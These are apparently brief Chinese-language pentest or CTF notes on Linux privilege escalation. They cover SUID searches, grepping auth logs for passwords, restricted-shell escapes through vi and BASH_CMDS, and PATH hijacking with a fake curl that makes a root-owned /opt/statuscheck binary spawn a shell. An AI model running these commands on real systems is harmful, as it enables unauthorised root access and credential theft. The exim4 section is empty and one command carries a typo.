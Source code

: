 # 提权
```
find / -perm -u=s -type f 2>/dev/null
查找sudo权限的命令

find / -user root -perm /4000

cat /var/log/auth* | grep -i pass
寻找登录的密码

find / -type f -name 文件名
找指定文件名
```

## exim4
exim4提权


## rbash逃逸
这里得用rbash绕过的其中一中 用vi命令

我们进文件之后 随便vi一个文件 在里面输入

```
BASH——CMDS[A]=/bin/sh;a

set shell=/bin/bash
:shell

export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin/
```

### 环境变量逃逸
```
export -p        //查看环境变量
BASH_CMDS[a]=/bin/sh;a         //把/bin/sh给a
/bin/bash
export PATH=$PATH:/bin/         //添加环境变量
export PATH=$PATH:/usr/bin      //添加环境变量
```
#### linux 环境变量劫持
```
cd /tmp
echo "/bin/sh" > curl
chmod 777 curl
export PATH=/tmp:$PATH
echo $PATH
/opt/statuscheck
```
{ #2b355a}

